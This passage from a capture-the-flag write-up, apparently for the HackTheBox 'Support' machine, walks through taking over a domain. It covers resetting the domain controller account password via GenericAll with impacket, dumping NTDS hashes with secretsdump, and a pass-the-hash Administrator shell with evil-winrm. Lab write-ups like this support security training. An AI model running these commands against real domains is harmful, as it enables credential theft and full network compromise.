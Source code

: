 Since we have the **GenericAll** privilege over the domain controller machine account, we can change the password using `addcomputer.py` from [impacket](https://github.com/fortra/impacket).

```bash
new_pass="$(openssl rand -base64 16)"
addcomputer.py \
  -no-add \
  -computer-name "DC$" \
  -computer-pass "$new_pass" \
  -dc-ip $rhost \
  "support.htb/support":"$support_pass"
```
{:.nolineno}

### Dumping the Secrets

Now we'll use the new password to dump the NTDS secrets with `secretsdump.py`{:.filepath} from impacket.

```bash
secretsdump.py \
  -just-dc \
  -outputfile secrets \
  'support.htb/DC$':"$new_pass"@"$rhost"
```
{:.nolineno}

Then we can get a shell as **Administrator** using the corresponding NT hash from the dump with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).

```bash
evil-winrm -u "Administrator" -H $administrator_nt
```
{:.nolineno}

We then find and submit the user flag at `C:\Users\support\Desktop\user.txt`{:.filepath} and the root flag at `C:\Users\Administrator\Desktop\root.txt`{:.filepath}.
